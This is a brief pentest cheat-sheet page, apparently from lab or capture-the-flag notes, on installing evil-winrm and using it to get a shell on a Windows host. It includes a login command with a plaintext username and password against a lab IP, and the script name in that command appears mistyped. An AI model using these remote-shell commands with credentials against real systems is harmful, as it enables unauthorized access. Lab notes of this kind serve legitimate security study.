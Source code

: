 ```yaml
---
description: Getting a shell from a Windows machine.
---
```


# evil-winrm



{% embed url="https://github.com/Hackplayers/evil-winrm" %}

```text
git clone https://github.com/Hackplayers/evil-winrm
```

```text
cd evil-winrm

for i in $(cat Gemfile | tail -4 | cut -d ' ' -f 2 | tr -d "'"); do gem install $i; done; echo -e "\n\n\nDONE"
```

With the right credentials, run the following to get a shell\(**putting password inside quotes because of special characters**\):

```text
ruby evil-rm.rb -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.10.10.149
```

Full output:

![evil-winrm shell](../.gitbook/assets/evilwinrm.png)



